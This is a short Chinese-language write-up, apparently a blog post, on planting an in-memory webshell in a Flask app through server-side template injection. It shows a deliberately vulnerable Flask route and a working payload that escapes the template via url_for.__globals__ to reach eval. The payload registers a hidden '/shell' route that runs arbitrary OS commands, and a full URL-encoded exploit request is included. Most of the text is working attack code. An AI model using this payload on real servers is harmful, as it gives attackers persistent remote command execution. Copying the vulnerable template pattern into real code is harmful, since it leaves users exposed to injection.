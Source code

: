 # Flask 内存马



一直遇到java打内存马的情景，想起来Flask也可以搞一个内存马试试。

模拟一个存在SSTI的Flask环境

```python
from flask import Flask,request
from flask import render_template_string
app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'Hello World'


@app.route('/test',methods=['GET', 'POST'])
def test():
    template = '''
        <div class="center-content error">
            <h1>Oops! That page doesn't exist.</h1>
            <h3>%s</h3>
        </div> 
    ''' %(request.values.get('fxxk'))

    return render_template_string(template)


if __name__ == '__main__':
    app.run()
```

使用app.add_url_rule动态添加一个路由，请求上下文在_request_ctx_stack的栈里

payload:

```
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```



## 流程：

打SSTI payload

```
http://127.0.0.1:5000/test?fxxk={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}
```

访问/shell内存马地址：

![image-20210326182004878](https://static.hexlt.org/img/20210326182010.png)

## 参考：

Flask上下文管理机制: https://www.cnblogs.com/bigox/p/11652859.html
